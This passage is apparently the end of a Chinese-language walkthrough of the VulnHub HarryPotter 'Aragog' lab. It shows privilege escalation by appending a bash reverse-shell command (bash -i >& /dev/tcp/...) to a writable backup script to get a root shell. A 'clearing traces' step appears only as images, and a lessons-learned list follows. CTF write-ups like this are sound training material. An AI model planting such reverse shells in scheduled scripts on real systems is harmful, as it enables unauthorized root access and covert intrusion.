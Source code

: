 发现该文件具有可读可写可执行，对于用户`hagrid98`，执行测试发现是复制

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\34.jpg)



再查看具体的代码，

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\35.jpg)



`cp`参数:

-r 或 --recursive：用于复制目录及其所有的子目录和文件，如果要复制目录，需要使用该选项。

很明显，就是备份文件到临时目录中，这个备份应该会执行，至于是手工还是定时，不得而知，不过可以在这个代码中进行插入，使得可以获得`root`的`shell`。插入下面命令

```shell
bash -i >& /dev/tcp/192.168.1.16/8888 0>&1
```

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\36.jpg)

## 登录root

然后在`kali`中开启监听`8888`端口，即可发现反弹成功

![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\37.jpg)







# 清除痕迹



![](D:\stu\vulnhub\harrypotter靶场\pic-aragog\38.jpg)

![39](D:\stu\vulnhub\harrypotter靶场\pic-aragog\39.jpg)

![40](D:\stu\vulnhub\harrypotter靶场\pic-aragog\40.jpg)





# 总结

1. 对于网站目录的识别，常见的`CMS`要大概清楚
2. 使用`wpscan`针对扫描`wordpress`时，可以扫描主题插件等
3. 对于`searchsploit`的利用，要会复现
4. 善用`find`命令可以使得步骤等非一般的提升
5. 对于文件，要学会找到一些可能存在的，比如这里的指向，是指向`/etc/wordpress`目录的，如果文件没看清的话，就会导致寻找不到提权点
6. 对于常见的数据库使用的加密方式可以简单了解
7. 找不到具有`SUID`权限的文件时，可以寻找可能具有关键字的一些文件，常见的密码、用户名以及备份文件等
8. 常见的提权`bash`指令，要知道为什么可以提权
